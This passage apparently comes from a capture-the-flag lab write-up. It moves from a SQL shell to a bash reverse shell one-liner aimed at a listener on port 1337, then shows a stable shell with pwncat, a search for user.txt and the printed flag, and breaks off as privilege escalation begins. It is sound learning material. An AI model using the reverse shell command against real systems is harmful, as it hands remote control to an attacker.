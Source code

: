 ![sqlshell](/img/tier2/sqlshell.png)

Time for a reverse shell - I just found [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) for bash.

```shell {linenos=false}
$ bash -c "bash -i >& /dev/tcp/10.10.14.66/1337 0>&1"
```

I then used [pwncat](https://github.com/calebstewart/pwncat) to help keep a stable shell and listen on port `1337`.

```shell {linenos=false}
$ find / -name user.txt 2>/dev/null
```

*file: user.txt*
```
ec9b13ca4d6229cd5cc1e09980965bf7
```

### ssh
When starting privesc, I found something valuable for `ssh` (Secure Shell).
